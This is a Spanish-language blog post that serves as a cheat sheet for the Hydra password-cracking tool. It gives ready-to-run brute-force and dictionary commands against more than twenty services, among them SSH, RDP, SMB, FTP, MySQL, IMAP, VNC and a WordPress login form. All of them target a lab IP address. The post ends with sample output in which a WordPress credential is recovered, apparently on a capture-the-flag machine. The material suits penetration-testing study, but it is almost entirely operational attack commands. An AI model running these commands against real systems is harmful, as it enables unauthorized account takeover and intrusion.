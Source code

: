 ```yaml
---
date: 2022-29-05T23:08:12.000Z
layout: post
comments: true
title: Hydra
subtitle: 'Herramienta para romper contraseñas'
description: >-
image: >-
  nptg24.github.io/images/Hydra.png
optimized_image: >-
  nptg24.github.io/images/Hydra.png
category: ciberseguridad
tags:
  - Brute-Force
  - Fuerza-Bruta
  - contraseña
  - password
  - Diccionario
  - Wordlist
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta para romper inicios de sesión a través de ataques de fuerza bruta o de diccionario.

Admite: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP- Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT) , SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 y v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC y XMPP.

### Tabla de parámetros

| Parámetro | Utilidad |
| :--------: | :-------: |
| -P | Indica la ruta del diccionario de contraseñas. |
| -L | Indica la ruta del diccionario de usuarios. |
| -t | Hilos (1-64). |
| -s | Se selecciona el puerto del servicio en el caso de que no sea por defecto. |
| -f | Salir cuando se encuentren las credenciales de inicio de sesión/contraseña. |
| -vV | Verbose. |

### CouchDB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 5984 http-get /
```

### Docker Registry

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt  -P /usr/share/wordlists/password.lst 10.1.1.30 -s 5000 https-get /v2/
```

### Elasticsearch

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 9200 http-get /
```

### FTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 ftp
```

### HTTP-GET

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L username.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 http-get /admin
```

Para el caso de https, se debe reemplazar ```http-post``` por ```https-get```.


### HTTP-POST

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P password.lst 10.1.1.30 http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

Para el caso de https, se debe reemplazar ```http-post-form``` por ```https-post-form```.

### IMAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /path/to/passwords.txt -f 10.1.1.30 imap -V
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 10.1.1.30 imap -V
```

### LDAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 ldap2 -V -f
```

### MySQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L usernames.txt -P pass.txt 10.1.1.30 mysql
```

### POP3

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.1.1.30 pop3 -V
```

### PostgreSQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt 10.1.1.30 postgres
```

### RDP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

### Redis

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra –P passwords.txt redis://10.1.1.30:6379
```

### Rexec

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rexec://10.1.1.30 -v -V
```

### Rlogin

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rlogin://10.1.1.30 -v -V
```

### Rsh

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt rsh://10.1.1.30 -v -V
```

### RTSP


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt 10.1.1.30 rtsp
```

### SMB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

### SMTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P /usr/share/wordlists/wordlistsnmap.lst 10.1.1.30 smtp -V
```

### SNMP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P wordlist.txt -v 10.1.1.30 snmp
```

### SQL Server

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt –P passwords.txt 10.1.1.30 mssql
```

### SSH

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -P passwords.txt -t 1 -u 10.1.1.30 ssh
```

Al conocer el usuario:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -l user -P passwords.txt -t 1 10.1.1.30 ssh
```

Al conocer la contraseña:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -p password -t 1 -u 10.1.1.30 ssh
```

### Telnet

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 telnet
```

### VNC

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt -s 5432 10.1.1.30 vnc
```

### Nota

Para eliminar elementos repetidos de un diccionario se debe realizar lo siguiente:

```bash
┌─[root@kali]─[/hydra]
└──╼ cat wordlist.dic | sort | uniq > new_wordlist.txt
```

### Ejemplo en Wordpress


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
...
...
...
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "examples" - 5686 of 11452 [child 35] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "Examples" - 5687 of 11452 [child 50] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "exams" - 5688 of 11452 [child 8] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "excellent" - 5689 of 11452 [child 29] (0/0)
[80][http-post-form] host: 10.1.1.30   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```









